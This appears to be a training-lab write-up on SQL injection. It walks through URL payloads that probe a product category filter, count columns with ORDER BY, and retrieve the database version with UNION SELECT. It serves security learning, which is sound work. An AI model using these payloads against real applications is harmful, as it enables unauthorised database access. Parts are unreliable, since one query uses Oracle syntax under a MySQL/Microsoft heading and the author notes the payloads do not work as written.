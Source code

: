 # SQL injection attack, querying the database type and version on MySQL and Microsoft
# Objective
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.\
\
To solve the lab, display the database version string.
# Solution

`/filter?category=Gifts’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Gifts' order by 1#` \
`/filter?category=Gifts' order by 2#` \
`/filter?category=Gifts' order by 3#` -> Error -> Number of columns = 2

## Determining the types of columns
`/filter?category=Gifts' union select 'a','a'#` -> Both columns are string type

## Retrieving database version
`/filter?category=' union select banner,null from v$version#` -> Database version \
`/filter?category=' union select @@version,null#` \
ALL OF IT DO NOT REALLY WORK VIA BROWSER